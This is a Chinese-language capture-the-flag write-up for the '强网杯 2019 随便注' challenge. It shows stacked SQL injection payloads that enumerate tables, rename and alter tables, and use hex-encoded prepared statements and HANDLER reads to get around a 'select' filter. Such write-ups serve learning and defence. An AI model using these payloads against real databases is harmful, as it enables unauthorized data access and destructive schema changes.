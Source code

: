 # [强网杯 2019]随便注

## 知识点

`堆叠注入`

## 解题

![](./img/4-1.png)

注入发现为`单引号注入`

![image-20231109223058542](./img/4-2.png)

查看列

![image-20231109223131382](./img/4-4.png)

发现为`2`列

联合注入查一下信息

![image-20231109223245571](./img/4-7.png)

发现过滤了`select`

堆叠注入试试,就是通过`;`号注入多条`SQL`语句。

```mysql
1';show databases%23
1';show tables%23
# 表名为数字时，要用反引号包起来查询。
1';show columns from `1919810931114514`%23
1';show columns from words%23
```

查出来了表`1919810931114514`和`words`，

`1919810931114514`表有`flag`列

`words`表有`id`列和`data`列

但是`select`被过滤了，需要绕过

### 方法一 更改查询表名为目标表名及更改对应字段

1. 通过` rename `先把`words` 表改名为其他的表名。
2. 把`1919810931114514`表的名字改为`words`
3. 给`words`表添加新的列名`id`
4. 将`flag`字段名改为与`words`中相同的列名`data`

然后就可以通过查询`id`得方法查出来`flag`字段的内容了

```mysql
1';rename table words to word1;rename table `1919810931114514` to words;alter table words add id int not NULL auto_increment primary key;alter table words change flag data varchar(100);%23
```

提交`payload`后，再查询`id`为`1`的数据，就可以查到`flag`

![](./img/4-8.png)

### 方法二 预处理语句配合十六进制编码

因为`select`被过滤了

```
所以先将select * from `1919810931114514`进行16进制编码
```

再构造预处理语句

```mysql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
# 因上述方法更改了flag表，所以真实的flag在words表中，所以重新编码
0';Set@a=0x73656c656374202a2066726f6d2060776f72647360;prepare execsql from @a;execute execsql;%23
```

### 方法三 非预期

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

666c6167
```
